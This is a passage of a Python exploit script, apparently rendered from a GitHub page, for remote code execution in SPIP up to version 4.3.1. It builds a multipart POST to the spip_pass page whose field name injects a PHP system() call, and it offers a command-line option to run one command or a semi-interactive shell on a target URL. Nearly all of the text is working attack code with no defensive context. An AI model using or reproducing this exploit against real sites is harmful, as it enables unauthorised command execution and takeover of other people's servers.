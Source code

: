 ```python
        return token

    def exploit(self, cmd):
        token = self.get_tokens()
        mp_encoder = MultipartEncoder(
            fields={
                "page": "spip_pass",
                "lang": "fr",
                "formulaire_action": "oubli",
                "formulaire_action_args": token,
                "formulaire_action_sign": "",
                "oubli": "abc@gmail.com",
                "nobot": "",
                "bigup_retrouver_fichiers": "a",
                f"RCE['.system('{cmd}').die().']": (
                    "abc.txt",
                    io.BytesIO(b"Hello"),
                    "text/plain",
                ),
            }
        )
        url = f"{self.url}/spip.ph%70?pag%65=spip_pass&lang=fr"
        r = requests.Request(
            url=url,
            method="POST",
            data=mp_encoder,
            headers={"Content-Type": mp_encoder.content_type},
        )
        prep = r.prepare()
        prep.url = url
        r = self.s.send(prep, verify=False)
        return r.text.strip()


def get_args():
    parser = argparse.ArgumentParser(description="RCE Spip <= 4.3.1")
    parser.add_argument(
        "-t", "--target", type=str, required=True, help="Target Url (ex: http://)"
    )
    parser.add_argument(
        "-c", "--cmd", type=str, required=False, help="Shell command to execute"
    )
    parser.add_argument(
        "-s", "--shell", action="store_true", help="Semi interactive shell"
    )
    args = parser.parse_args()
    return args


def main():
    args = get_args()
    x = exploit(args)
    if args.cmd:
        res = x.exploit(args.cmd)
        print(res)

    if args.shell:
        while 1:
            r = x.exploit(input("$ "))
            print(r)


if __name__ == "__main__":
```